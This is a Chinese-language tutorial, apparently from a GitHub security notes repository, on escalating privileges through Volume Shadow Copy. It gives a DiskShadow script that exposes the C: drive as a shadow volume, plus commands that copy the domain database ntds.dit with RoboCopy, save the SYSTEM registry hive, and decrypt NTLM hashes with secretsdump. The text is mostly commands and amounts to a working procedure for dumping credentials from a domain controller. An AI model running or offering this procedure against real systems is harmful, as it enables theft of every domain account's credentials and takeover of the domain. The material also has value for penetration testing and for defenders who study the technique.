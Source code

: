 # 卷影拷贝提权

相关权限：SeBackupPrivilege和SeRestorePrivilege

![QQ_1727593471134](images/1.png)

DiskShadow.exe 是公开卷影复制服务 (VSS) 提供的功能的工具。

适用范围：Windows Server 2022、Windows Server 2019、Windows Server 2016、Windows Server 2012 R2、Windows Server 2012

当用户具有备份以及还原文件和目录的权限时，可以用卷影拷贝导出SAM和system

首先在本地创建一个dsh文件，这里命名为`raj.dsh`，内容如下

```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

接下来再用unix2dos将dsh文件的编码间距转换为Windows兼容的编码和间距

```
unix2dos raj.dsh
```

在`C:/`下随便创个目录，上传此文件

如果是直接在域机器上创建的文件，可以跳过这一步

卷影拷贝

```
diskshadow /s raj.dsh
```

![QQ_1727593633076](images/2.png)

看到创建了Z盘

因为是域环境，所以需要导出的不是SAM，而是ntds.dit文件

复制到当前目录

```
RoboCopy /b z:\windows\ntds . ntds.dit
```

导出system，因为system.hive中存放着ntds.dit的密钥

```
reg save HKLM\SYSTEM system
```

![QQ_1727593696789](images/3.png)

下载下来后用secretdump脚本进行解密获取ntlm hash

![QQ_1727593770262](images/4.png)